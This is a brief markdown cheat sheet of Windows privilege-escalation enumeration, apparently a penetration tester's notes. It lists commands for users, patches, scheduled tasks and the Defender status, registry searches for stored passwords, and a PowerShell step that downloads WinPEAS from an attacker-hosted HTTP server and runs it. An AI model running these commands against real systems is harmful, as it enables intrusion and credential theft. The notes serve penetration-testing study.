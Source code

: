 ### Information Gathering
User Enumeration
- `whoami /priv` Current user privileges
- `net users` List users
- `net user $username` Detail of a specific user
- `qwinsta` Other users logged in

<!-- -->
Misc
- `systeminfo | findstr /B /C:"OS Name" /C:"OS Version"` get OS version
 - `wmic qfe get Caption,Description,HotFixID,InstalledOn` list updates on system
 - `wmic product get name,version,vendor` installed apps
 - `schtasks /query /fo LIST /v` query scheduled tasks
- `driverquery` list drivers installed
- `sc query windefend` is windows Defender on?
- `cmdkey /list` list
- `reg query HKLM /f password /t REG_SZ /s` registry key containing passwords
- `reg query HKCU /f password /t REG_SZ /s` registry key containing passwords
<!-- -->

		Kernal Exploits
- `driverquery`
### Winpeas.exe
Local:
- `python -m SimpleHTTPServer 80`

<!-- -->
Remote: 
- `powershell.exe -command IWR -Uri $IP/winpeas.exe -OutFile winpeas.exe"`
- `winpeas.exe`
 <!-- -->
 
 [Windows Privesc](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)